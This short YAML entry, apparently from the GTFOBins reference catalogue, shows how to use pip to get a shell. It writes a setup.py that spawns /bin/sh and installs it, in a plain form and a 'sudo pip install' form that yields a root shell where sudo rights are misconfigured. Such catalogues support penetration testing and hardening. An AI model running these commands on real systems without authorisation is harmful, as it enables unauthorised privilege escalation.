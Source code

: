 ```yaml
---
description: |
  More generally, this allows to execute arbitrary Python code. See the [Python](/gtfobins/python/) functions.
functions:
  execute-interactive:
    - code: |
        TF=$(mktemp -d)
        echo 'import os; os.dup2(0, 1); os.dup2(0, 2); os.execl("/bin/sh", "sh")' > $TF/setup.py
        pip install $TF
  sudo-enabled:
    - code: |
        TF=$(mktemp -d)
        echo 'import os; os.dup2(0, 1); os.dup2(0, 2); os.execl("/bin/sh", "sh")' > $TF/setup.py
        sudo pip install $TF
---
```

